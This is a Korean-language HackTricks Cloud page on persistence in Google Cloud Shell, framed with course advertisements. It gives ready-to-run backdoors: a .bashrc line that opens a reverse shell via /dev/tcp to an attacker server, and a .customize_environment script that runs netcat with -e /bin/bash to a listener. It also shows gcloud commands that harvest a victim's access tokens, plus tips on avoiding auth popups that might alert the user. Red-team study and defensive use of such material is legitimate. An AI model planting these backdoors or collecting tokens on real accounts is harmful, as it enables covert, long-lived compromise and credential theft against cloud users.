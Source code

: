 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 직접 클라우드 리소스에 대한 명령줄 액세스를 제공하며, 관련 비용이 없습니다.

**웹 콘솔**에서 또는 **`gcloud cloud-shell ssh`**를 실행하여 Google의 Cloud Shell에 액세스할 수 있습니다.

이 콘솔은 공격자에게 몇 가지 흥미로운 기능을 제공합니다:

1. **Google Cloud에 액세스할 수 있는 모든 Google 사용자**는 완전히 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다 (서비스 계정은 조직의 소유자일지라도 가능합니다).
2. 해당 인스턴스는 **활동이 없으면 최소 120일 동안 홈 디렉토리를 유지**합니다.
3. 해당 인스턴스의 활동을 **모니터링할 수 있는 조직의 기능이 없습니다**.

이는 기본적으로 공격자가 사용자의 홈 디렉토리에 백도어를 설치할 수 있으며, 사용자가 최소 120일마다 GC Shell에 연결하기만 하면 백도어가 살아남고 공격자는 매번 실행할 때마다 셸을 얻을 수 있음을 의미합니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**라는 또 다른 파일이 있으며, 이 파일이 존재하면 사용자가 **cloud shell**에 접근할 때마다 **실행됩니다** (이전 기술과 유사하게). 이전 백도어 또는 다음과 같은 백도어를 삽입하여 사용자가 "자주" cloud shell을 사용할 때까지 지속성을 유지하십시오:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**인증이 필요한 작업을 처음 수행할 때** 사용자의 브라우저에 팝업 인증 창이 나타나는 것이 중요합니다. 이 창은 명령이 실행되기 전에 수락해야 합니다. 예상치 못한 팝업이 나타나면 의심을 불러일으킬 수 있으며 사용 중인 지속성 방법이 손상될 수 있습니다.
{% endhint %}

이것은 클라우드 셸에서 `gcloud projects list`를 실행한 후 (공격자로서) 브라우저 사용자 세션에서 본 팝업입니다:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 적극적으로 사용한 경우 팝업이 나타나지 않으며 **사용자의 토큰을 수집할 수 있습니다**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로, 이 3개의 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하게 됩니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하게 됩니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 셸의 IP를 알려줍니다)

하지만 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 추가 정보를 찾을 수 있습니다.

## 참고 문헌

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
